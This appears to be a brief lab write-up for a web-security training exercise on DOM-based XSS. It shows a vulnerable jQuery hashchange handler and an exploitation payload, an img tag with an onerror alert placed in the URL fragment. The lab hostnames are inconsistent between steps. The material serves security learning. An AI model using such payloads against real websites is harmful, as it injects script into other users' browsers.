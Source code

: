 ### Lab: DOM XSS in jQuery selector sink using a hashchange event

#### **Recon:**
-----
**Request:**
```http
GET / HTTP/2
Host: 0aa5007d04e9857b8294106000cf0098.web-security-academy.net

...Omitted for Brevety...
```
**Response:**
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 6239

...Omitted for Brevety...
```

`view-source:https://098.web-security-academy.net
```html
<script>
	$(window).on('hashchange', function(){
		var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
		if (post) post.get(0).scrollIntoView();
	});
</script>
```

**Affected Location:**
```
https://098.web-security-academy.net/#
```
### **Exploitation**
-----
**Payload:** 
```js
%20<img%20src=0%20onerror=alert('xss')>
```
**On url**
```
https://094.web-security-academy.net/#%20%3Cimg%20src=0%20onerror=alert('xss')%3E
```